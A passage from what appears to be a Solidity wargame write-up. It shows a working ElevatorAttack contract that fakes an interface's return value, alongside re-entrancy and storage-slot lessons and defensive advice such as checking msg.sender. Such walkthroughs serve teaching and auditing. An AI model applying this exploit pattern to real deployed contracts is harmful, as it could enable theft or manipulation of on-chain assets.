 
Key learnings:
- Understanding re-entrancy mechanism
- Use modern contract frameworks (like OpenZeppelin's ReentrancyGuard) to implement secure reentry control

## 11. Elevator ✅ [Easy]

This level tests understanding of interface:
- Interface is an abstract contract in Solidity used to define contract function signatures without implementation code.
- Attackers can gain contract control by implementing interface but using function containing attack

Attack steps:
1. Main focus is writing attack contract implementing interface
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Elevator.sol";

contract ElevatorAttack is Building {
    Elevator public target;
    bool public toggle;

    constructor(address _target) public {
        target = Elevator(_target);
    }

    function isLastFloor(uint) external override returns (bool) {
        toggle = !toggle; // Toggle return value
        return toggle;
    }

    function attack(uint _floor) public {
        target.goTo(_floor);
    }
}
```

Key learnings:
- Restrict interface callers: Verify if caller is trusted contract or specific address.
- Use require to check msg.sender
```solidity
require(msg.sender == trustedAddress, "Unauthorized caller");
```
- Logic verification: Avoid completely relying on external contract return values, add internal verification logic.

## 12. Privacy ✅ [Easy]

This level tests understanding of storage slots and data protection:
- Storage slots are spaces in Solidity used to store variables, each slot has unique index.
- Attackers can use storage slots to get contract's private data

